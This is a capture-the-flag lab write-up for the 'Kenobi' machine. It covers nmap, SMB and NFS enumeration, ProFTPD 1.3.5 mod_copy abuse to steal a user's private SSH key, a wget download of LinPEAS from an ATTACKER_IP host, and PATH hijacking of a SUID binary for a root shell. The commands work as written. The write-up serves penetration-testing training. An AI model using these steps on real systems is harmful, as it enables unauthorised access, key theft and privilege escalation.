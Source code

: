 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

We start things off with a basic `nmap` scan on the server. we can run 2 nmap scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that **7** ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 (Samba)**, **445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, **3** shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`. I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to authenticate.

We can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a text file: **log.txt**

**log.txt** was a **ProFTPD** configuration file which gave us a lot of interesting and potentially useful information about the server. Let's take note of this file for now.

Next, let's tackle port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

In our case, port 111 gives us access to the **network file system (NFS)**. We can use nmap to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's revisit the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To obtain the version, we can use `nc` to connect to the FTP server:

```
nc 10.10.243.180 21
```

From the response, we know that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

From the **log.txt** file earlier, I found out that the **private SSH key** of the user, **kenobi**, can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can copy the private key over to this mount point, mount our local machine and obtain the private key! This will then allow us to access the machine via SSH as the user kenobi.

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home folder to the **/var/tmp** folder on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the **/var/tmp** directory on the target machine by visting **/mnt/kenobiNFS/** on our local machine. We can then obtain the private key file:

![screenshot7](../assets/images/kenobi/screenshot7.png)

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions are set to be **read and write by owner only**. We can do this with `chmod`:

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's **home** directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. The room taught me how to use the `find` command to find files that have the SUID-bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to try using a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), to speed things up.

To transfer linpeas over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the **linpeas.sh** script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port **8000**. Next, on the target machine, I used `wget` to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting file that had its SUID-bit set - **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running the menu binary, we come across some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set).

Using the command `strings`, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. not using `/usr/bin/curl` or `/usr/bin/uname`).

Hence, we can manipulate our **PATH** to exploit this fact and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is accessible by all users:

```
chmod 777 curl
```

Next, we put its location into our **PATH**. In my case, since I created the `curl` file in **/tmp**, I'll add that directory into the PATH:

```
export PATH=/tmp:$PATH
```

Now, when `/usr/bin/menu` is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in **/tmp** first, and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from **/root**.





